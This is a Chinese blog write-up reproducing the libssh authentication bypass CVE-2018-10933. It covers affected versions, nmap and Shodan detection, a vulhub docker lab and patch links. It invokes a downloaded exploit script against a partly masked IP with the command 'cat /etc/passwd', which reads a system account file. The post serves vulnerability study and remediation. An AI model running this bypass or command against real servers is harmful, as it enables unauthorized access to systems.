


# Libssh 认证绕过 CVE-2018-10933 漏洞复现 - 渗透测试中心 - 博客园

> 原文：[`www.cnblogs.com/backlion/p/9841832.html`](https://www.cnblogs.com/backlion/p/9841832.html)

## 0x00 漏洞描述

libssh 0.6 及以上的版本，在服务端的代码实现中存在身份认证绕过漏洞。在向服务端认证的流程中，攻击者通过将 SSH2_MSG_USERAUTH_REQUEST 消息替换为 SSH2_MSG_USERAUTH_SUCCESS，即可在无需任何有效凭证的情况下认证成

## 0x01 漏洞影响版本

libssh 0.8.x - 0.8.3

libssh 0.7.x - 0.7.5

libssh 0.6.x

## 0x02 漏洞检测

1.nmap 扫描 libssh 版本

nmap  -p  2222 -n-Pn   -T5  -sC -Sv  149.*.*.85

2.Shodan.io libSSH

## 0x03 漏洞复现

1.最好在 windows 上运行脚本，在 linux 上运行脚本出现很多坑（很多依赖脚本安装有问题）Windows 上安装 python3，然后使用以下命令进行安装脚本运行依赖包：

pip3 installl paramiko

2．漏洞靶机部署，这里采用[vulhub](https://github.com/vulhub/vulhub)进行部署。（本机采用 ubuntu16.04）

root@libssh:~# git clone [`github.com/vulhub/vulhub.git`](https://github.com/vulhub/vulhub.git)

root@libssh:~# cd vulhub/

root@libssh:~/vulhub# cd libssh/CVE-2018-10933/

root@libssh:~/vulhub/libssh/CVE-2018-10933# docker-compose build

root@libssh:~/vulhub/libssh/CVE-2018-10933# docker-compose up -d

3.本地环境中运行攻击脚本

脚本下载地址：

https://raw.githubusercontent.com/backlion/CVE-2018-10933/master/libssh-CVE-2018-10933.py

D:\python3>python.exe  libssh-CVE-2018-10933.py  149.*.*.852222  "cat /etc/passwd"

(注意这里的 2222 端口是 docker 有 libssh 漏洞的 sshd 服务(22 端口)映射出物理机主机的端口 2222)

## 0x04 解决方案

官方已发布不受影响版本。建议受影响用户尽快升级。已修复版本 Libssh 0.8.4 和 0.7.6 下载链接如下：[`www.libssh.org/files`](https://www.libssh.org/files)

补丁地址:

[`www.libssh.org/security/patches/stable-0.6_CVE-2018-10933.jmcd.patch01.txt`](https://www.libssh.org/security/patches/stable-0.6_CVE-2018-10933.jmcd.patch01.txt)

更新地址:

https://www.libssh.org/files/0.7/libssh-0.7.6.tar.xz

https://www.libssh.org/files/0.8/libssh-0.8.4.tar.xz

注意：使用 OpenSSH 的 SSH 服务不受影响